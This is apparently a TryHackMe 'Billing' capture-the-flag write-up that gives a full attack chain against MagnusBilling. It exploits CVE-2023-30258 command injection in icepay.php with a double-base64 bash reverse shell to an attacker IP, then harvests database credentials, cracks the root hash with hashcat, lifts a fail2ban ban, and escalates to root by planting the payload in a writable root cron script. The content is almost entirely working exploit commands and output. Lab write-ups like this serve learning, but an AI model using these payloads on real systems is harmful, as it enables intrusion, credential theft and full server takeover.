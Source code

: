 # TryHackMe Billing
```
sudo nmap -sC -sV -p- 10.XX.XX.XX
```
> TCP
```python
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://10.XX.XX.XX/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql    MariaDB (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
```
```sh
sudo nmap -sU 10.XX.XX.XX
```
> UDP
```python
123/udp open  ntp
```

### **MagnusBilling**

![image](https://github.com/RunasRs/Billing/assets/165502296/a7a549d3-4a9c-406f-8f62-df89861f2e1e)

[**CVE-2023-30258**](https://nvd.nist.gov/vuln/detail/CVE-2023-30258)

Commit : Vulnerability in [icepay.php](https://github.com/magnussolution/magnusbilling7/commit/ccff9f6370f530cc41ef7de2e31d7590a0fdb8c3)

  
```php
if (isset($_GET['demo'])) {

    if ($_GET['demo'] == 1) {
        exec("touch idepay_proccess.php");
    } else {
        exec("rm -rf idepay_proccess.php");
    }
}
if (isset($_GET['democ'])) {
    if (strlen($_GET['democ']) > 5) {
        exec("touch " . $_GET['democ'] . '.txt');
    } else {
        exec("rm -rf *.txt");
    }
}
```

**POC**
```sh
curl 'http://10.XX.XX.XX/mbilling/lib/icepay/icepay.php?democ=null;PAYLOAD;null'
```
**PAYLOAD**
```
echo 'bash -i >& /dev/tcp/10.11.XX.XX/7777 0>&1' | base64 | base64
```
```sh
echo%20"WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNUzVZV0M1WVdDODNOemMzSURBK0pqRUsK"|base64%20-d|base64%20-d|bash
```

# Exploitation
```sh
curl 'http://10.XX.XX.XX/mbilling/lib/icepay/icepay.php?democ=null;echo%20"WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNUzVZV0M1WVdDODNOemMzSURBK0pqRUsK"|base64%20-d|base64%20-d|bash;null'
```
* **Listening on kali.**

┌──(kali㉿kali)-[~]
```sh
nc -lvnp 7777
...
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ whoami
asterisk
```
* **Stabilization of our shell.**
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# Search

* **If we follow the track of the cron task, we should find interesting things.**

┌── asterisk@Billing:/$
```sh
cat /etc/crontab

* * * * * root php /var/www/html/mbilling/cron.php cryptocurrency 
* * * * * root php /home/magnus/install/check.php
```
* **Let’s check what cron.php contains.**

┌── asterisk@Billing:/$
```sh
cat /var/www/html/mbilling/cron.php
```
```r
// Definicao do framework e do arquivo de config da aplicacao
$yii    = dirname(__FILE__) . '/yii/framework/yii.php';
$config = dirname(__FILE__) . '/protected/config/cron.php';
```
* **Let’s check what cron.php in the protected folder contains.**

┌── asterisk@Billing:/$
```sh
cat /var/www/html/mbilling/protected/config/cron.php
```
* **This one refers to res_config_mysql.conf, let’s see more in this file.**
```r
$configFile = '/etc/asterisk/res_config_mysql.conf';
```
* **Ok, we found credentials to log into the database.**

┌── asterisk@Billing:/$
```sh
cat /etc/asterisk/res_config_mysql.conf
```
```
[general]
dbhost = 127.0.0.1
dbname = mbilling
dbuser = mbillingUser
dbpass = XXXXXXXXXXXXXXXXX
```
```sh
mysql -h localhost -u mbillingUser -p
```
```sh
show databases;
```

```r
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mbilling           |
+--------------------+
```
```sh
use mbilling;
show tables;
```
```r
| pkg_user                    |
| pkg_user_history            |
| pkg_user_rate               |
| pkg_user_type               |
| pkg_voicemail_users         |
| pkg_voucher                 |
+-----------------------------+
```
* **The pkg_user table contains the user root password of the application (sha-1).**
```sh
select * from pkg_user;
```
```r
root | XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
* **We will have to crack the password with hashcat.**

┌──(kali㉿kali)-[~]
```sh
hashcat -m 100 hash.txt /home/kali/rockyou.txt 
```
* **Ok, we find a match !**
```r
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:PASSWD
```
* **Now we can check if magnus used his password to set up the application root account.**

* **The su function does not seem to work, we will have to try to connect in ssh.**

┌──(kali㉿kali)-[~]
```sh
ssh magnus@10.XX.XX.XX
```

* *If the attacker brute-forced the magnus password, his ip will be banned but asterisk has the power to remove his ban.*
```r
ssh: connect to host 10.XX.XX.XX port 22: Connection refused
```
┌── asterisk@Billing:/$
```
sudo /usr/bin/fail2ban-client status sshd
```
```R
- Actions
   |- Currently banned:	1
   |- Total banned:	1
   `- Banned IP list:	10.11.XX.XX
```
┌── asterisk@Billing:/$
```sh
sudo /usr/bin/fail2ban-client unbanip 10.11.XX.XX
```
---
┌──(kali㉿kali)-[~]
```sh
ssh magnus@10.XX.XX.XX
```
* **We can now display the contents of** */home/magnus/user.txt*
```css
THM{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

# PrivEsc

┌── magnus@Billing:/$
```sh
cat /etc/crontab
```
```r
* * * * * root php /var/www/html/mbilling/cron.php cryptocurrency 
* * * * * root php /home/magnus/install/check.php
```
* **A misconfiguration of the second cron job launches a php script as root that is writable by magnus.**

* **Just place a payload in the check.php script and listen on kali.**

┌──(kali㉿kali)-[~]
```SH
nc -lvnp 7777
```
**PAYLOAD**
*/home/magnus/install/check.php*
```php
<?php 
exec('echo "WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNUzVZV0M1WVdDODNOemMzSURBK0pqRUsK"|base64 -d|base64 -d|bash')
?>
```

┌──(kali㉿kali)-[~]
```sh
nc -lvnp 7777
listening on [any] 7777 ...
connect to [10.11.XX.XX] from (UNKNOWN) [10.XX.XX.XX]
root@Billing:~# whoami
root
```
*/root/root.txt*
```css
THM{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```
